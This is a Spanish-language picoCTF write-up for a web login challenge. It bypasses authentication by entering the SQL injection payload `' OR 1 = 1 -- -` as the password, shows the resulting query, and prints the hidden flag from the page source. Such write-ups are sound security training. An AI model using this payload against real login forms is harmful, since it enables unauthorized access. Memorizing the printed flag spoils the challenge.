
## Descripcion

Can you login to this website?Try to login [here](http://saturn.picoctf.net:52758/).

### Hints
- `admin` is the user you want to login as.

## Solucion

El objetivo del reto es loggearme como admin en esta pagina:

En el login pruebo con las credenciales `admin:'OR 1 = 1 -- - `que es una inyeccion sql clasica y obtuve la siguiente salida:

![](images/outputsqli.png)

Inspecciono el codigo fuente para ver si la flag esta ahi:

```
|   |   |
|---|---|
||<pre>username: admin|
||password: &#039; OR 1 = 1 -- -|
||SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;&#039; OR 1 = 1 -- -&#039;|
||</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_ec8a64c7}</p>|
```

## Referencias
